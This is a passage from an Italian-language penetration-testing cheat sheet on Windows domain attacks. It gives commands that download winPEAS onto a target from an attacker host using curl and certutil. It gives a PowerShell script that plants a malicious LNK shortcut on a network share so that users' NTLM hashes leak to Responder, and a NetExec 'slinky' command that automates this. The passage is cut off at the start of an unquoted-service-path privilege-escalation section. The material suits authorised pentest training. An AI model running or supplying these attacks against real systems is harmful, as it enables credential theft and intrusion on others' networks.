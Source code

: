 *Target*

```powershell
curl -O http://<ATTACKER-IP>:<PORT>/winpeas.exe
```

oppure

```powershell
certutil.exe -urlcache -f http://<ATTACKER-IP>:<PORT>/winpeas.exe
```

---

## LNK file attack

L'attacco è da effettuare se siamo riusciti ad ottenere una shell in una macchina target di un utente nel domain ed è eseguibile nel caso vi sia una cartella condivisa accessibile in rete. Usiamo “*powershel*l”

```powershell

$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<ATTACKER-IP\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

Collochiamo il link creato nella cartella condivisa facendo in modo che sia il più "in alto" possibile (ecco il perché della @ nel nome).

Eseguiamo *Responder* sulla nostra macchina

```bash
sudo responder -I eth0 -dP  *# su -I mettiamo l'interfaccia di rete (di solito è eth0, ma è bene verificare con ifconfig)*
```

Non appena un utente entra nella cartella condivisa, riceveremo gli hash

Nel caso in cui gli shares siano esposti, è possibile automatizzare il processo utilizzando *NetExec*:

```bash
netexec smb <IP> -d <DOMAIN> -u <USER> -p <PASSWORD> -M slinky -o NAME=test SERVER=<ATTACKER-IP>
```

---

## Unquoted Service Path

Ottenuta una shell in una macchina target, assicuriamoci di utilizzare *powershel*l.

Identifichiamo i servizi con startup automatico usando il seguente comando:
